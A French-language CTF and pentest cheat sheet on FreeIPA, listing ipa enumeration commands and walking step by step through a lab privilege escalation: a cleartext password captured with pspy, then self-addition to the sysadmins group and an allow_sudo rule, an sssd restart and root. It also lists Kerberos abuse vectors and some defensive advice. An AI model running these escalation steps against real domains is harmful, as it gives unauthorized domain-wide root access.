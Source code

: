 # IPA

***

### <mark style="color:red;">🧩 Qu’est-ce que FreeIPA ?</mark>

* FreeIPA = **Identity Management (IdM)** pour Linux, basé sur :
  * **LDAP** : annuaire d’utilisateurs / groupes.
  * **Kerberos** : authentification forte (tickets TGT/TGS).
  * **SSSD (System Security Services Daemon)** : lie un hôte Linux à FreeIPA pour auth centralisée.
  * **Sudo rules centralisées** : gestion fine des droits sudo à travers le domaine.
* C’est une **alternative open-source à Active Directory** (AD côté Windows).
* Cible fréquente en CTF / pentest car mal configurée = escalade directe.

***

### <mark style="color:red;">⚙️ Commandes de base (</mark><mark style="color:red;">`ipa`</mark> <mark style="color:red;"></mark><mark style="color:red;">CLI)</mark>

#### 🔎 Enumération

* Groupes existants :

```bash
ipa group-find
```

* Voir les utilisateurs et leurs groupes :

```bash
ipa user-find
ipa user-show <username> --all | grep 'Member of groups'
```

* Règles sudo :

```bash
ipa sudorule-find
ipa sudorule-show <rulename>
```

* Vérifier les sudo pour un user :

```bash
ipa sudorule-find --user=<username>
```

* Politiques de HBAC (Host-Based Access Control) :

```bash
ipa hbacrule-find
```

***

#### 🔑 Manipulation (si accès admin ou creds volés)

* Ajouter un user à un groupe :

```bash
ipa group-add-member <groupname> --users=<username>
```

* Ajouter un user à une règle sudo :

```bash
ipa sudorule-add-user <rulename> --users=<username>
```

* Créer un nouvel utilisateur :

```bash
ipa user-add hacker --first=Evil --last=Hacker --password
```

* Ajouter une clé SSH à un utilisateur :

```bash
ipa user-mod hacker --sshpubkey="ssh-rsa AAAAB3Nza..."
```

***

### <mark style="color:red;">🎯 Exemple d’escalade en CTF (ton cas)</mark>

1️⃣ **Énumération avec pspy**

```
pspy → UID=1638400000 CMD: /usr/bin/ipa user-mod ash_winter --setattr userPassword=w@LoiU8Crmdep
```

➡️ Tu chopes un mot de passe clair via une commande IPA exécutée automatiquement.

2️⃣ **Connexion SSH avec ces creds**

```bash
ssh ash_winter@10.129.2.68
```

3️⃣ **Vérification sudo local**

```bash
sudo -l
```

➡️ Autorisé à redémarrer `sssd` sans mot de passe.

4️⃣ **Exploration FreeIPA**

```bash
ipa group-find
ipa user-show ash_winter --all
ipa sudorule-find
```

➡️ Découverte d’un groupe `sysadmins` et d’une règle `allow_sudo` donnant accès total.

5️⃣ **Ajout de ton user au groupe sysadmins**

```bash
ipa group-add-member sysadmins --users=ash_winter
```

6️⃣ **Ajout du user à la règle sudo**

```bash
ipa sudorule-add-user allow_sudo --users=ash_winter
```

7️⃣ **Redémarrage de SSSD**

```bash
sudo systemctl restart sssd
```

8️⃣ **Root sans mot de passe**

```bash
sudo su -
```

***

### <mark style="color:red;">📚 Vecteurs d’attaque offensifs FreeIPA</mark>

#### 1. **Password recovery / capture**

* Commandes `ipa user-mod` vues via `pspy` ou `strace` → mot de passe en clair.
* LDAP bind avec comptes en clair stockés dans `/etc/sssd/sssd.conf`.

#### 2. **Abus de sudo rules**

* Règles mal configurées (ex: `allow_sudo` donnant `ALL=(ALL) ALL`).
* Ajout de soi-même à ces règles = **root domain-wide**.

#### 3. **Abus de groupes**

* Ajout à `admins` ou `sysadmins`.
* Exploitation de `ipa group-add-member` si tu as déjà un compte semi-privilégié.

#### 4. **Kerberos abuse**

* Dump tickets Kerberos (`klist`, `kinit`).
* Récupération de TGT/TGS → Pass-the-ticket.
* Si tu as `krbtgt` ou clé de la CA IPA → full domain compromise.

#### 5. **SSSD restart abuse**

* Si `sudo -l` autorise `systemctl restart sssd` → tu peux injecter des modifs IPA et les appliquer immédiatement.

***

### <mark style="color:red;">🔎 Différences clés avec Active Directory</mark>

* IPA = open source, intégré au monde Linux.
* Utilise **Kerberos natif** + **LDAP**.
* Pas de GPO comme AD, mais HBAC + sudo rules.
* Certificat CA interne (souvent réutilisable en MITM, comme ton cas précédent).

***

### <mark style="color:red;">🛡 Défense</mark>

* Restreindre qui peut utiliser `ipa` CLI (éviter comptes trop permissifs).
* Ne pas stocker de mots de passe en clair dans commandes automatisées.
* Vérifier les règles sudo IPA → éviter les `ALL` trop larges.
* Activer **2FA / OTP** pour comptes admins.
* Surveiller les ajouts suspects à des groupes critiques (`admins`, `sysadmins`).

***

### <mark style="color:red;">📚 Références</mark>

* [FreeIPA official docs](https://www.freeipa.org/)
* CWE-732: Incorrect Permission Assignment
* CWE-250: Execution with Unnecessary Privileges
* MITRE ATT\&CK T1078: Valid Accounts

***

✅ En résumé :

* FreeIPA = AD du monde Linux (LDAP + Kerberos + sudo central).
* Outil `ipa` = couteau suisse pour énumérer, modifier, escalader.
* Vecteurs classiques en CTF : mots de passe captés par pspy/strace, abus sudo rules, ajout dans sysadmins, redémarrage de `sssd`.

***
